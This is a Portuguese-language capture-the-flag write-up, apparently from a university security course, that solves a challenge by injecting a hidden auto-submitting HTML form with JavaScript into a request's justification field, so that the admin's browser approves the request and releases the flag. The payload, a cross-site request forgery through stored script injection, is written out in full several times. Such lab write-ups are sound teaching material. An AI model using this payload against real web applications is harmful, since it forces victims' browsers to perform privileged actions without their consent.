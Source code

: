 # CTF6

Ao entrar no site e colocando algo no campo de texto com a justificação para obter a flag, conseguimos a seguir chegar à página do admin, ao carregar em "page". 

![ctf6imagem1](images/ctf6imagem1.png)

 
Onde é possível ver que a página do admin muda para a porta 5005 em vez da 5004 e, inspecionando a página, verificamos que o form do request tem a seguinte estrutura:

![ctf6imagem2](images/ctf6imagem2.png)

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/fd6edcc0bf22cea333f4b2dd95c9ba7a429d463e/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```


Onde "fd6edcc0bf22cea333f4b2dd95c9ba7a429d463e" é o request id que nos é dado na página inicial. Logo, podemos adaptar um novo form com o objetivo de aceitar o pedido. 

``` html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```


Portanto, voltando à página inicial e colocando este novo form na 'justificação', mas com o request id que nos é dado nessa página, temos algo deste género:

![ctf6imagem3](images/ctf6imagem3.png)

``` html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/d017767734bfe2c6e391e8d5606caecafebd4c85/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```
e com isso damos o 'Submit'.

Somos passados para o url da ação do form, no entanto vai nos ser avisado que não temos permissões para tal.

![ctf6imagem4](images/ctf6imagem4.png)

Para combater isso, vamos impedir o redirecionamento do nosso lado, mas vamos manter o redirecionamento do lado do admin. (desativando o JavaScript do nosso lado)
Google Chrome -> Definições -> Privacidade e Segurança -> Definições de Sites -> JavaScript -> (Sem autorização para usar JavaScript) Adicionar ->

![ctf6imagem5](images/ctf6imagem5.png)

Vamos então fazer isto de novo, agora sem o redirecionamento da nossa parte.
 
Aqui já verificamos que o redirecionamento já não foi realizado para a página do admin, mas sim para a certa. Contudo o request não foi validado.

![ctf6imagem6](images/ctf6imagem6.png)

Como desativamos o JavaScript, a página já não dá os constantes reloads que estava a dar, logo faremos isso manualmente:

![ctf6imagem7](images/ctf6imagem7.png)

E dessa forma conseguimos a Flag!



